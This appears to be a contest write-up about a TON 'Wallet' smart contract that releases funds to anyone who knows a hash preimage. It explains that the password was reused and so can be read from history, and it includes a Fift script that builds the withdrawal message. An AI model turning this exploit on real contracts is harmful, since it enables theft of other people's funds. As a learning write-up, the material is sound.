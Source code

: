 # Wallet
The idea behind this contract is that to spend money you need to know the preimage of the image saved in the contract, something like a one-time password.
Obviously, it is unsafe in many ways: for instance, any relay party may change the request prior to it being included in the block, however, on practice it may work for a while.

The problem with the contract on the contest is that the current password was previously reused, thus it can be found in history and used to withdraw funds.

The following script will do the trick.

```fift

"TonUtil.fif" include

<b 0 256 u, b> <s =: old_seed
<b -1 256 i, b> <s =: new_seed

<b b{1000100} s, contract_address addr, 0 Gram, b{00} s, =: envelope

<b 0x18 6 u, contract_address Addr, 0 Gram, 0 1 4 + 4 + 64 + 32 + 1 + 1 + u, b> =: message1

envelope old_seed s, 128 8 u, message1 ref, new_seed shash 256 B>u@ 256 u, b> 2 boc+>B

"external-message-withdraw.boc" B>file

```
